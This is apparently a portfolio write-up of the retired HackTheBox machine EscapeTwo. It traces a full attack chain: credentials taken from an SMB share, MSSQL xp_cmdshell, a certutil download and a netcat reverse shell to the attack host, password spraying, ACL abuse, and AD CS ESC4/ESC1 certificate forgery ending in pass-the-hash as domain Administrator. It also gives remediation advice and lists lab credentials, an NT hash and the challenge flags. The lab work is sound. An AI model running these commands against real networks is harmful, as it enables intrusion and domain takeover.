# EscapeTwo — HackTheBox Report

| Difficulty | OS | Category |
| ---------- | -- | -------- |
| Easy | Windows | Active Directory |

> Writeup of the retired EscapeTwo machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `EscapeTwo (DC01.sequel.htb) / IP: 10.129.67.160`
**Platform:** `HackTheBox`
**Date Completed:** `2026-09-23`
**Assessment Type:** `Active Directory`
**Approach:** `Assumed-breach` — testing began with a single set of low-privilege domain credentials (`rose`), consistent with the machine design.

This assessment targeted a Windows Server 2019 domain controller (`DC01`) for the `sequel.htb` domain, which additionally ran Microsoft SQL Server 2019 and Active Directory Certificate Services (AD CS). Starting from a low-privilege domain account, cleartext credentials were recovered from a readable SMB share, granting `sysadmin` access to MSSQL. This was leveraged into OS command execution and an interactive foothold as the `sql_svc` service account. A second set of cleartext credentials found in a leftover SQL unattended-install file was reused (password reuse) to compromise the `ryan` account. Active Directory relationship analysis then revealed an insecure ACL (`WriteOwner`) that allowed `ryan` to seize control of the `ca_svc` account, a member of the **Cert Publishers** group. Finally, a misconfigured certificate template (AD CS **ESC4**, escalated to **ESC1**) was abused to issue a certificate impersonating the domain Administrator, yielding the account's NT hash and full domain compromise. The overall risk is **Critical** — the chain moves from a single low-privilege user to complete domain takeover.

---

## Scope

| Host / URL / IP Address | Description |
| ------------------------- | ------------- |
| `10.129.67.160 (DC01.sequel.htb)` | Target machine — Windows Server 2019 Domain Controller, MSSQL 2019, AD CS |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — active service discovery against the target.
2. **Scanning & Enumeration** — SMB share enumeration and file collection using the provided credentials.
3. **Vulnerability Analysis** — identifying exposed credentials, service misconfigurations, insecure ACLs, and AD CS template weaknesses.
4. **Exploitation** — MSSQL `xp_cmdshell` command execution for an initial foothold.
5. **Privilege Escalation** — credential reuse, ACL abuse, and AD CS certificate template exploitation.
6. **Post-Exploitation** — authenticating as Administrator via a forged certificate / NT hash, capturing flags, and validating impact.

---

## Tools Used

| Tool | Purpose |
| ---- | ------- |
| `nmap` | Port and service discovery |
| `netexec (nxc)` | SMB/MSSQL/WinRM authentication, share enumeration, password spraying |
| `impacket-smbclient` | Interactive SMB access and file retrieval |
| `7z` / `file` / `dd` / `printf` | File-type inspection and repair of the corrupted spreadsheet |
| `mdb-hexdump` | Inspecting file magic bytes |
| `impacket-mssqlclient` | MSSQL client used to enable and invoke `xp_cmdshell` |
| `certutil` (on target) | Downloading the Netcat binary to the host |
| `nc64.exe` / `nc` | Reverse shell transfer and listener |
| `evil-winrm` | Interactive WinRM shell (password and pass-the-hash) |
| `bloodhound-python` / BloodHound | Active Directory attack-path analysis |
| `PowerView` | ACL abuse (change owner, grant ResetPassword, reset password) |
| `Certipy` | AD CS enumeration and ESC4/ESC1 exploitation, certificate auth |

---

## Assessment Summary (Findings Overview)

A single low-privilege domain credential was chained through exposed cleartext credentials, MSSQL command execution, credential reuse, an insecure Active Directory ACL, and a vulnerable AD CS certificate template to achieve full domain compromise.

| Severity | Count |
| -------- | ----- |
| Critical | 1 |
| High | 4 |
| Medium | 1 |
| Low | 0 |
| Informational | 0 |

| # | Severity | Finding Name |
| - | -------- | ------------- |
| 1 | Critical | Vulnerable AD CS Certificate Template (ESC4 → ESC1) Enabling Domain Takeover |
| 2 | High | Insecure Object ACL — `WriteOwner` Over a Service Account |
| 3 | High | Cleartext Credentials Stored in an SMB-Accessible File |
| 4 | High | Cleartext Service Account Credentials in SQL Unattended-Install File |
| 5 | High | MSSQL `sysadmin` Access Enables OS Command Execution via `xp_cmdshell` |
| 6 | Medium | Password Reuse Across Accounts |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from the provided low-privilege credential to full domain compromise, step by step, with commands and evidence. Lab IPs and credentials are shown because this is a retired training machine whose credentials are ephemeral and reset on each spawn.

### 1.1. Reconnaissance

A full service-version scan identified a Windows Active Directory domain controller for `sequel.htb`, exposing DNS, Kerberos, LDAP, SMB, MSSQL 2019, and WinRM.

```bash
sudo nmap -sC -sV -Pn 10.129.67.160
```

**Findings:**
- Host is a Domain Controller: `DC01.sequel.htb` / domain `sequel.htb`.
- Notable ports: 53 (DNS), 88 (Kerberos), 135/139/445 (RPC/SMB), 389/636/3268/3269 (LDAP/LDAPS), **1433 (MSSQL 2019 RTM)**, 5985 (WinRM).
- SMB signing is enabled and required.

Host entries were added for name resolution:

```bash
echo "10.129.67.160 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts
```

### 1.2. SMB Enumeration (assumed-breach credential)

The provided credential `rose:KxEPkKe6R8su` was used to enumerate shares. The **Accounting Department** share was readable.

```bash
netexec smb 10.129.67.160 -u rose -p 'KxEPkKe6R8su' --shares
```



Interactive SMB access was used to list and download the share contents:

```bash
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.67.160
# use Accounting Department
# ls
# get accounting_2024.xlsx
# get accounts.xlsx
# exit
```



### 1.3. Recovering the Corrupted Spreadsheet

`accounts.xlsx` would not open. `file` reported it as a raw ZIP rather than a valid Office document, and `7z` failed with a header error.

```bash
file accounts.xlsx
7z x accounts.xlsx
```




A hex dump revealed the file's magic bytes were corrupted to `50 48 04 03`. A valid `.xlsx` (a ZIP container) must begin with `50 4B 03 04` (`PK..`).

```bash
sudo mdb-hexdump accounts.xlsx
```



The first four bytes were rewritten in place to the correct ZIP signature:

```bash
cp accounts.xlsx accounts_fixed.xlsx
printf '\x50\x4b\x03\x04' | dd of=accounts_fixed.xlsx bs=1 seek=0 count=4 conv=notrunc
file accounts_fixed.xlsx
```



The repaired workbook contained a table of usernames and cleartext passwords:



| Username | Password |
| -------- | -------- |
| angela | `0fwz7Q4mSpurIt99` |
| oscar | `86LxLBMgEWaKUnBG` |
| kevin | `Md9Wlq1E5bZnVDVo` |
| sa | `MSSQLP@ssw0rd!` |

### 1.4. Validating the Recovered Credentials

The recovered credentials were validated against SMB. `oscar` authenticated successfully; the `sa` credential is a MSSQL local account (validated in the next step).

```bash
netexec smb 10.129.67.160 -u angela -p 0fwz7Q4mSpurIt99
netexec smb 10.129.67.160 -u oscar  -p 86LxLBMgEWaKUnBG
netexec smb 10.129.67.160 -u kevin  -p Md9Wlq1E5bZnVDVo
netexec smb 10.129.67.160 -u sa     -p 'MSSQLP@ssw0rd!'
```



### 2.1. Foothold — MSSQL `xp_cmdshell`

The `sa` credential authenticated to MSSQL as a local (`--local-auth`) sysadmin.

```bash
nxc mssql 10.129.67.160 -u sa -p 'MSSQLP@ssw0rd!' --local-auth
```



An interactive MSSQL session was opened, `xp_cmdshell` was enabled, and command execution was confirmed as `sequel\sql_svc`.

```bash
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.67.160
```



```sql
enable_xp_cmdshell
xp_cmdshell whoami
```



### 2.2. Reverse Shell

A Netcat binary was staged from the attack host via `certutil` and executed to return an interactive shell.

```bash
# attacker
nc -lvnp 4444
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
python3 -m http.server 4000
```

```sql
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.188:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.188 4444';
```




### 3.1. Lateral Movement — Credentials in SQL Config File

The filesystem contained a `SQL2019` installation directory. Its unattended-install configuration file stored the `sql_svc` service account password in cleartext.

```cmd
cd C:\ & dir
cd SQL2019\ExpressAdv_ENU
more sql-Configuration.INI
```




Recovered value: `SQLSVCPASSWORD="WqSZAF6CysDQbGb3"`.

### 3.2. Password Spraying

Domain users were enumerated and the recovered password was sprayed across them.

```cmd
net user
```



```bash
netexec smb sequel.htb -u Administrator -p 'WqSZAF6CysDQbGb3'
netexec smb sequel.htb -u ca_svc        -p 'WqSZAF6CysDQbGb3'
netexec smb sequel.htb -u michael       -p 'WqSZAF6CysDQbGb3'
netexec smb sequel.htb -u ryan          -p 'WqSZAF6CysDQbGb3'
# ...remaining users
```



The password (reused from the `sql_svc` service account) was valid for **`ryan`**. WinRM access was then confirmed.

```bash
nxc winrm sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
```



### 3.3. User Flag

```bash
evil-winrm -i 10.129.67.160 -u ryan -p 'WqSZAF6CysDQbGb3'
# cd C:\Users\ryan\Desktop ; cat user.txt
```



```text
user.txt: 4aee966020bce9b560e49b2b8fd12693
```

### 4.1. Privilege Escalation — ACL Abuse (`WriteOwner`)

BloodHound data was collected as `ryan` and analysed. `ryan` held **`WriteOwner`** over the `ca_svc` account.

```bash
bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.67.160 -c all --zip
```



Using PowerView, `ryan` took ownership of `ca_svc`, granted itself `ResetPassword`, and set a new password:

```powershell
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
$cred = ConvertTo-SecureString "Password123!!" -AsPlainText -Force
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $cred
```

```bash
netexec smb sequel.htb -u ca_svc -p 'Password123!!'
```



The `ca_svc` account is a member of **Cert Publishers**, positioning it for AD CS abuse.



### 4.2. Privilege Escalation — AD CS (ESC4 → ESC1)

Certipy enumeration flagged the `DunderMifflinAuthentication` template. Because `ca_svc` (via Cert Publishers) held dangerous write permissions over the template, it was vulnerable to **ESC4** (template ACL abuse).

```bash
certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.129.67.160 -stdout
```



The original template configuration was backed up, then overwritten with a permissive default that enables `Enrollee Supplies Subject` (making it exploitable as **ESC1** — the enrollee can request a certificate for an arbitrary UPN):

```bash
# backup the current configuration
certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication \
  -save-configuration DunderMifflinAuthentication.json -dc-ip 10.129.67.160
```



```bash
# overwrite with the vulnerable default configuration
certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication \
  -write-default-configuration -dc-ip 10.129.67.160
```

A certificate was then requested impersonating the domain Administrator via the template's Subject Alternative Name (UPN):

```bash
certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA \
  -template DunderMifflinAuthentication -target dc01.sequel.htb \
  -upn administrator@sequel.htb -ns 10.129.67.160
```



### 4.3. Domain Compromise — Certificate to NT Hash

The issued certificate was used to authenticate as Administrator via PKINIT, retrieving a TGT and the account's NT hash.

```bash
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.67.160 -debug
```



```text
administrator NT hash: 7a8d4e04986afa8ed4060f75e5a0b3ff
```

### 4.4. Root Flag (Pass-the-Hash)

```bash
evil-winrm -i 10.129.67.160 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
# whoami -> sequel\administrator
# cd C:\Users\Administrator\Desktop ; cat root.txt
```



```text
root.txt: 10c7f3bb90661f9a74cfc00299288fe5
```

---

## Technical Findings Details

### 1. Vulnerable AD CS Certificate Template (ESC4 → ESC1) Enabling Domain Takeover — Critical

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-284: Improper Access Control |
| **CVSS 3.1 Score** | 9.6 — `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The `DunderMifflinAuthentication` certificate template's security descriptor granted write permissions (Owner / WriteDacl / WriteProperty) to the **Cert Publishers** group. A principal with those rights can rewrite the template's configuration (ESC4). Rewriting it to allow `Enrollee Supplies Subject` and Client Authentication turns it into an ESC1-vulnerable template, letting a low-privilege enrollee request a certificate specifying an arbitrary Subject Alternative Name (UPN). |
| **Security Impact** | Any principal controlling a Cert Publishers member can issue a client-authentication certificate for any domain identity, including Domain Admins, and use it to obtain that identity's Kerberos TGT and NT hash — resulting in complete, persistent domain compromise. |
| **Affected Host(s)** | `10.129.67.160` (AD CS: `sequel-DC01-CA`) |
| **Remediation** | - Remove write/enroll permissions for non-administrative groups (especially Cert Publishers) from certificate templates.<br>- Disable `Enrollee Supplies Subject` on authentication templates; bind Subject to AD identity.<br>- Enable CA enrollment/manager approval for sensitive templates and turn on strong certificate mapping / require SID.<br>- Audit templates regularly with Certipy or `Locksmith`. |
| **References** | [MITRE ATT&CK T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/); [SpecterOps — Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2) |

**Evidence:**
```bash
certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.129.67.160 -stdout
certipy template ... -write-default-configuration -dc-ip 10.129.67.160
certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA \
  -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.129.67.160
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.67.160
```
`See images/template_vulns.png, images/admin_pfx.png, images/admin_nthash.png`

---

### 2. Insecure Object ACL — `WriteOwner` Over a Service Account — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-732: Incorrect Permission Assignment for Critical Resource |
| **CVSS 3.1 Score** | 8.8 — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The `ryan` user held a `WriteOwner` ACE over the `ca_svc` account object. `WriteOwner` allows an attacker to make themselves the owner of the target object, grant themselves further rights (e.g., `ResetPassword`), and set a new password — fully taking over the account without knowing its current password. |
| **Security Impact** | Enabled takeover of `ca_svc`, a Cert Publishers member, which was the pivot into the AD CS attack that led to domain compromise. |
| **Affected Host(s)** | `sequel.htb` (domain object `ca_svc`) |
| **Remediation** | - Remove the unnecessary `WriteOwner` ACE from `ryan` over `ca_svc`.<br>- Review and minimize object DACLs; run BloodHound periodically to detect dangerous edges.<br>- Place service accounts in tiered/protected OUs with restricted delegation. |
| **References** | [MITRE ATT&CK T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/) |

**Evidence:**
```powershell
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $cred
```
`See images/ca_svc-vuln.png, images/ca_svc-credsverification.png`

---

### 3. Cleartext Credentials Stored in an SMB-Accessible File — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-312: Cleartext Storage of Sensitive Information |
| **CVSS 3.1 Score** | 7.7 — `AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N` |
| **Description (Incl. Root Cause)** | The `Accounting Department` SMB share was readable by a low-privilege user and contained a spreadsheet (`accounts.xlsx`) storing multiple account usernames and passwords in cleartext, including the MSSQL `sa` credential. The file had only been superficially "protected" by corrupting its ZIP magic bytes, which was trivially reversed. |
| **Security Impact** | Directly exposed the `sa` (MSSQL sysadmin) and `oscar` credentials, providing the initial foothold path. |
| **Affected Host(s)** | `10.129.67.160` (share `Accounting Department`) |
| **Remediation** | - Never store credentials in shared documents; use a vetted secrets manager.<br>- Restrict share ACLs to least privilege; remove broad read access.<br>- Rotate all exposed credentials immediately. |
| **References** | [MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) |

**Evidence:**
```bash
netexec smb 10.129.67.160 -u rose -p 'KxEPkKe6R8su' --shares
printf '\x50\x4b\x03\x04' | dd of=accounts_fixed.xlsx bs=1 seek=0 count=4 conv=notrunc
```
`See images/share_perms.png, images/magic_numbers.png, images/credentials.png`

---

### 4. Cleartext Service Account Credentials in SQL Unattended-Install File — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-312: Cleartext Storage of Sensitive Information |
| **CVSS 3.1 Score** | 7.1 — `AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:L/A:N` |
| **Description (Incl. Root Cause)** | The SQL Server unattended-install file `C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI` was left on disk after installation and contained `SQLSVCPASSWORD` (and `SAPWD`) in cleartext, readable by the low-privilege `sql_svc` foothold account. |
| **Security Impact** | Provided the `sql_svc` password, which was reused by the `ryan` domain account (see Finding 6), enabling lateral movement and the user flag. |
| **Affected Host(s)** | `10.129.67.160` (`C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI`) |
| **Remediation** | - Delete unattended-install answer files (or scrub secrets) immediately after installation.<br>- Restrict filesystem permissions on install directories.<br>- Rotate any credentials that appeared in these files. |
| **References** | [MITRE ATT&CK T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) |

**Evidence:**
```cmd
more C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI
```
`See images/sql2019.png, images/passwords_found.png`

---

### 5. MSSQL `sysadmin` Access Enables OS Command Execution via `xp_cmdshell` — High

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-250: Execution with Unnecessary Privileges |
| **CVSS 3.1 Score** | 8.8 — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` |
| **Description (Incl. Root Cause)** | The exposed `sa` account granted `sysadmin` on MSSQL 2019. A sysadmin can enable and invoke the `xp_cmdshell` extended stored procedure, which runs arbitrary OS commands under the SQL Server service account (`sequel\sql_svc`). |
| **Security Impact** | Converted exposed database credentials into interactive OS-level command execution on the domain controller, establishing the initial foothold. |
| **Affected Host(s)** | `10.129.67.160:1433` |
| **Remediation** | - Do not expose the `sa` account; disable it or enforce a strong, unique password and network restrictions.<br>- Keep `xp_cmdshell` disabled and monitor for `sp_configure` changes.<br>- Run SQL Server under a least-privilege, non-domain-joined service account where feasible. |
| **References** | [MITRE ATT&CK T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/) |

**Evidence:**
```sql
enable_xp_cmdshell
xp_cmdshell whoami           -- sequel\sql_svc
EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.188:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.188 4444';
```
`See images/mssql_login.png, images/impacket.png, images/enable_xp_cmdshell.png, images/reverse_shell.png`

---

### 6. Password Reuse Across Accounts — Medium

| Field | Details |
| ----- | ------- |
| **CWE** | CWE-521: Weak Password Requirements |
| **CVSS 3.1 Score** | 6.5 — `AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` |
| **Description (Incl. Root Cause)** | The password configured for the `sql_svc` service account (`WqSZAF6CysDQbGb3`) was identical to that of the `ryan` domain user account. A single recovered secret therefore unlocked an unrelated, higher-value account. |
| **Security Impact** | Allowed a straightforward password spray to compromise `ryan` (WinRM access + user flag), advancing the chain toward domain compromise. |
| **Affected Host(s)** | `sequel.htb` (`sql_svc`, `ryan`) |
| **Remediation** | - Enforce unique passwords per account; prohibit reuse between service and user accounts.<br>- Use group Managed Service Accounts (gMSA) for services to remove human-set passwords.<br>- Deploy password-filtering / breached-password detection. |
| **References** | [MITRE ATT&CK T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/) |

**Evidence:**
```bash
netexec smb  sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
nxc winrm    sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
```
`See images/ryan_creds.png, images/ryan_verification.png`

---

## Remediation Summary

### Short Term

- **Finding #3 / #4 (Cleartext credentials)** – Remove the credential-bearing spreadsheet from the share and delete the SQL unattended-install file; rotate every exposed credential (`sa`, `oscar`, `angela`, `kevin`, `sql_svc`).
- **Finding #5 (`xp_cmdshell`)** – Disable `xp_cmdshell`, disable/secure the `sa` account, and restrict access to port 1433.
- **Finding #2 (Insecure ACL)** – Remove `ryan`'s `WriteOwner` ACE over `ca_svc`.

### Medium Term

- **Finding #1 (AD CS ESC4/ESC1)** – Reset the `DunderMifflinAuthentication` template permissions, disable `Enrollee Supplies Subject`, require manager approval, and enforce strong certificate mapping.
- **Finding #6 (Password reuse)** – Migrate services to gMSAs and enforce unique-password / breached-password policies.

### Long Term

- Establish periodic Active Directory attack-path reviews (BloodHound) and AD CS audits (Certipy/Locksmith).
- Implement a secrets-management program so credentials are never stored in files or shares.
- Adopt a tiered administration model to isolate DC, CA, and service-account trust boundaries.

---

## Lessons Learned / Skills Demonstrated

**File-format forensics & recovery:**
Identified that a "corrupt" `.xlsx` was a ZIP container with tampered magic bytes and repaired the signature (`50 48 04 03` → `50 4B 03 04`) to recover embedded cleartext credentials.

**Database-to-OS pivoting:**
Leveraged exposed MSSQL `sysadmin` credentials to enable `xp_cmdshell`, stage tooling with `certutil`, and obtain an interactive foothold as the service account.

**Credential hygiene exploitation:**
Recovered a service password from a leftover install file and used password spraying to identify reuse against a domain user account.

**Active Directory attack-path analysis:**
Used BloodHound to discover and abuse an insecure `WriteOwner` ACL, seizing control of a service account through ownership + `ResetPassword`.

**AD CS exploitation (ESC4 → ESC1):**
Rewrote a vulnerable certificate template and enrolled a certificate impersonating the Domain Administrator, converting it to a Kerberos TGT / NT hash for full domain compromise via pass-the-hash.

---

## Appendix

### A. Finding Severity Definitions

| Rating | Definition |
| ------ | ---------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High** | Exploitation causes substantial harm to confidentiality, integrity, or availability. |
| **Medium** | Exploitation has a moderate impact, or a high-impact issue with limited exposure. |
| **Low** | Exploitation causes minimal impact to operations. |
| **Info** | An observation or improvement opportunity; not itself a vulnerability. |

### B. Exploited Hosts

| Host | Method | Notes |
| ---- | ------ | ----- |
| `10.129.67.160 (DC01)` | MSSQL `xp_cmdshell` via exposed `sa` credential | Initial foothold as `sequel\sql_svc` |
| `10.129.67.160 (DC01)` | WinRM with reused `sql_svc` password | Lateral movement as `ryan`; user flag |
| `10.129.67.160 (DC01)` | AD CS ESC4→ESC1 + pass-the-hash | Domain compromise as `Administrator`; root flag |

### C. Compromised Users / Credentials

> Values are ephemeral HackTheBox lab credentials and are reset when the machine is respawned.

| Username | Method | Notes |
| -------- | ------ | ----- |
| `rose` | Provided (assumed-breach) | Initial low-privilege SMB access |
| `oscar` | Recovered from `accounts.xlsx` | Valid domain SMB credential |
| `sa` | Recovered from `accounts.xlsx` | MSSQL sysadmin → foothold |
| `sql_svc` | `xp_cmdshell` foothold | OS command execution context |
| `ryan` | Password reuse (`sql_svc` password) | WinRM access; user flag |
| `ca_svc` | ACL abuse (`WriteOwner` by `ryan`) | Cert Publishers member; AD CS pivot |
| `Administrator` | AD CS ESC4→ESC1 forged certificate → NT hash | Full domain compromise; root flag |

### D. Command Reference Log

```bash
# Recon
sudo nmap -sC -sV -Pn 10.129.67.160
echo "10.129.67.160 sequel.htb dc01.sequel.htb" | sudo tee -a /etc/hosts

# SMB enumeration & file retrieval
netexec smb 10.129.67.160 -u rose -p 'KxEPkKe6R8su' --shares
impacket-smbclient sequel.htb/rose:'KxEPkKe6R8su'@10.129.67.160
#   use Accounting Department ; ls ; get accounting_2024.xlsx ; get accounts.xlsx ; exit

# Repair corrupted spreadsheet
file accounts.xlsx
7z x accounts.xlsx
sudo mdb-hexdump accounts.xlsx
cp accounts.xlsx accounts_fixed.xlsx
printf '\x50\x4b\x03\x04' | dd of=accounts_fixed.xlsx bs=1 seek=0 count=4 conv=notrunc
file accounts_fixed.xlsx

# Validate recovered creds
netexec smb 10.129.67.160 -u angela -p 0fwz7Q4mSpurIt99
netexec smb 10.129.67.160 -u oscar  -p 86LxLBMgEWaKUnBG
netexec smb 10.129.67.160 -u kevin  -p Md9Wlq1E5bZnVDVo
nxc mssql   10.129.67.160 -u sa     -p 'MSSQLP@ssw0rd!' --local-auth

# Foothold (MSSQL -> RCE)
impacket-mssqlclient sequel.htb/'sa:MSSQLP@ssw0rd!'@10.129.67.160
#   enable_xp_cmdshell
#   xp_cmdshell whoami
nc -lvnp 4444
wget https://github.com/vinsworldcom/NetCat64/releases/download/1.11.6.4/nc64.exe
python3 -m http.server 4000
#   EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.14.188:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe';
#   EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe 10.10.14.188 4444';

# Lateral movement
more C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI
net user
netexec smb   sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
nxc winrm     sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3'
evil-winrm -i 10.129.67.160 -u ryan -p 'WqSZAF6CysDQbGb3'      # cat user.txt

# ACL abuse (PowerView)
Import-Module .\PowerView.ps1
Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
Set-DomainUserPassword -Identity "ca_svc" -AccountPassword (ConvertTo-SecureString "Password123!!" -AsPlainText -Force)
netexec smb sequel.htb -u ca_svc -p 'Password123!!'

# AD CS (ESC4 -> ESC1)
bloodhound-python -u ryan -p 'WqSZAF6CysDQbGb3' -d sequel.htb -ns 10.129.67.160 -c all --zip
certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.129.67.160 -stdout
certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication -save-configuration DunderMifflinAuthentication.json -dc-ip 10.129.67.160
certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication -write-default-configuration -dc-ip 10.129.67.160
certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb -ns 10.129.67.160
certipy auth -pfx administrator.pfx -domain sequel.htb -dc-ip 10.129.67.160 -debug

# Domain compromise (pass-the-hash)
evil-winrm -i 10.129.67.160 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff   # cat root.txt
```

### E. References

- [MITRE ATT&CK: T1046 — Network Service Discovery](https://attack.mitre.org/techniques/T1046/)
- [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1059 — Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/)
- [MITRE ATT&CK: T1105 — Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)
- [MITRE ATT&CK: T1021.006 — Remote Services: WinRM](https://attack.mitre.org/techniques/T1021/006/)
- [MITRE ATT&CK: T1078 — Valid Accounts](https://attack.mitre.org/techniques/T1078/)
- [MITRE ATT&CK: T1098 — Account Manipulation](https://attack.mitre.org/techniques/T1098/)
- [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [MITRE ATT&CK: T1550.002 — Use Alternate Authentication Material: Pass the Hash](https://attack.mitre.org/techniques/T1550/002/)
- [SpecterOps — Certified Pre-Owned (AD CS abuse)](https://posts.specterops.io/certified-pre-owned-d95910965cd2)
- [Official HackTheBox Machine Page — EscapeTwo](https://app.hackthebox.com/machines/EscapeTwo)

> **Note on CVEs:** No versioned-product CVEs apply to this assessment. Every finding stems from misconfiguration or insecure practice — cleartext credential storage, an exposed `sa` account, password reuse, an insecure object ACL, and a misconfigured AD CS certificate template — rather than a patchable flaw in third-party software. Remediation is therefore configuration- and process-based.
